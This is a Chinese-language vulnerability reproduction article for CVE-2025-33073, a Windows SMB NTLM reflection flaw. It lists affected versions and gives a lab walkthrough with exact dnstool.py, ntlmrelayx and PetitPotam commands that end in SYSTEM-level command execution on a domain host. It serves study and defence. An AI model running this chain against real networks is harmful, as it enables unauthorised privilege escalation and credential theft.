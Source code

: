 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247486063&idx=1&sn=cb7aa62c4cda3c38d7fe2d23d4d77b49

#  【漏洞复现】CVE-2025-33073｜Windows SMB 权限提升漏洞  
原创 alicy  信安百科   2025-06-30 09:01  
  
**0x00 前言**  
  
  
Windows   
是微软研发的图形界面操作系统，应用于计算机、手机等设备，有普通版、服务器版、手机版等系列，是全球广泛使用的系统之一。  
  
  
Windows SMB   
是微软公司的一个网络文件共享协议。它允许计算机上的应用程序读取和写入文件以及从计算机网络中的服务器程序请求服务。  
  
  
  
**0x01 漏洞描述**  
  
  
CVE-2025-33073  
漏洞存在于  
Windows SMB  
中，  
允许已认证的远程攻击者在未经强制  
SMB  
签名的机器上，通过篡改  
DNS  
记录强制目标主机进行本地认证反射，最终以  
SYSTEM  
权限执行任意命令。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-33073  
  
  
  
**0x03 影响版本**  

```
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
Windows Server 2008 R2 for x64-based Systems Service Pack 1
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for x64-based Systems Service Pack 2
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)
Windows Server 2008 for 32-bit Systems Service Pack 2
Windows Server 2016 (Server Core installation)
Windows Server 2016
Windows 10 Version 1607 for x64-based Systems
Windows 10 Version 1607 for 32-bit Systems
Windows Server 2012 R2 (Server Core installation)
Windows Server 2012 R2
Windows Server 2012 (Server Core installation)
Windows Server 2012
Windows 10 for x64-based Systems
Windows 10 for 32-bit Systems
Windows Server 2025
Windows 11 Version 24H2 for x64-based Systems
Windows 11 Version 24H2 for ARM64-based Systems
Windows Server 2022, 23H2 Edition (Server Core installation)
Windows 11 Version 23H2 for x64-based Systems
Windows 11 Version 23H2 for ARM64-based Systems
Windows Server 2025 (Server Core installation)
Windows 10 Version 22H2 for 32-bit Systems
Windows 10 Version 22H2 for ARM64-based Systems
Windows 10 Version 22H2 for x64-based Systems
Windows 11 Version 22H2 for x64-based Systems
Windows 11 Version 22H2 for ARM64-based Systems
Windows 10 Version 21H2 for x64-based Systems
Windows 10 Version 21H2 for ARM64-based Systems
Windows 10 Version 21H2 for 32-bit Systems
Windows Server 2022 (Server Core installation)
Windows Server 2022
Windows Server 2019 (Server Core installation)
Windows Server 2019
Windows 10 Version 1809 for x64-based Systems
Windows 10 Version 1809 for 32-bit Systems
```

  
  
  
**0x04 利用条件**  
  
****  
1  
、攻击者需拥有普通域账号权限  
  
2  
、目标主机未强制启用  
SMB  
签名  
  
3  
、域  
DNS  
可被篡改（如通过  
dnstool  
工具）  
  
  
  
**0x05 漏洞复现**  
  
  
1  
、环境搭建  

```
攻击PC：192.168.2.5 （Kali Linux）
被攻击域内PC：192.168.2.3 （Windows 10）
DC：192.168.2.1（Windows Server 2012）
域内普通用户账号:test.com\test1
密码：Test..111
```

  
  
2  
、复现过程  
  
  
(1)  
向域控添加dns  
记录  
  
  
使用  
dnstool.py  
向域控添加一条  
dns  
记录。  
  
  
下载工具包:  
  
https://github.com/dirkjanm/krbrelayx  
  
使用其中的dnstool.py  
  
  
命令：  

```
python dnstool.py -u 'test.com\test1' -p 'Test..111' -r win10pc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.2.5 --action add 192.168.2.1
```

  
  
注意:  

```
win10pc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA的设置是被攻击机器名(win10pc)加1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA，或者使用localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Whm7t4Je6uqlQeyehq1emV5Xk5HfSR1m5EoogWWDEOSOkovrQEQawwjZ8uc486q116hakAkzxCwFXBib9OiaNAEg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
在域控中可以看到添加的  
DNS  
记录。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Whm7t4Je6uqlQeyehq1emV5Xk5HfSR1m8l9WGTBXcHvxgQgkicxCgTSxqzcOeAn4wH8hOglNlPjJsdqtpEpHomw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
(2)开始监听  
  
  
Kali Linux  
中自带  
impacket-ntlmrelayx  
工具。  
  
  
命令：  

```
impacket-ntlmrelayx -t 192.168.2.3 -smb2support
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Whm7t4Je6uqlQeyehq1emV5Xk5HfSR1msnyvhgZPXibTMG6wYm6eR6pU7QBiaucdfRQC2NF89Y2c2jLvxtMM02bQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
(3)进行强制  
NTLM  
认证  
  
  
工具下载：  
  
https://github.com/topotam/PetitPotam  
  
  
命令：  

```
python PetitPotam.py -d test.com -u test1 -p Test..111 win10pc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.2.3
```

  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Whm7t4Je6uqlQeyehq1emV5Xk5HfSR1mibRH0tpKjJIiaJqNrHEYu4IYwDygsT3t5mjqGIoCWQtOOfmWYic4q7W5g/640?wx_fmt=jpeg&from=appmsg "")  
  
  
在监听页面等待结果，如果不行，多执行几次强制  
NTLM  
认证的命令，成功获取到  
192.168.2.3  
的  
hash。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Whm7t4Je6uqlQeyehq1emV5Xk5HfSR1mtp27xhiabL3Aqjlv3em9CzxpaYZDicGN9s3oBf4pNIHlLRtDeXeFdmKQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
在  
192.168.2.3  
成功执行命令并返回结果。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Whm7t4Je6uqlQeyehq1emV5Xk5HfSR1mWvd1t5qJgS4vYrOQXlDjP36oc6mgjGekdtZkrAU0grrbAkibicgArMgw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
**0x06 参考链接**  
  
  
https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  
  
  
https://github.com/dirkjanm/krbrelayx  
  
  
https://github.com/topotam/PetitPotam  
  
  
  
  
推荐阅读：  
  
  
[【漏洞复现】CVE-2025-24071｜Windows 文件资源管理器欺骗漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485941&idx=2&sn=246d2f1e20ec25f28e48e4d34c7191e5&scene=21#wechat_redirect)  
  
  
  
[【漏洞复现】LimeSurvey XSS漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247484681&idx=2&sn=9106271d1288d3fec586a35f62b065af&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-49113｜Roundcube Webmail反序列化漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485975&idx=1&sn=a3a96fcfeca034089636e9a89ae83d48&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
  
